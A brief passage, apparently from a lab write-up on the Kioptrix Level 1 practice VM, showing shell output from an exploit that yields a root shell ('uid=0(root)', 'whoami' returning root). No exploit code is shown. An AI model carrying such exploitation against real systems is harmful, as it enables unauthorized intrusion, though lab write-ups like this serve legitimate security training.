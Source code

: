 ```shell  
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
ls
exploit
whoami
root
```  

And exploit works. So we have to methods to get root shell in kioptrix1.1.

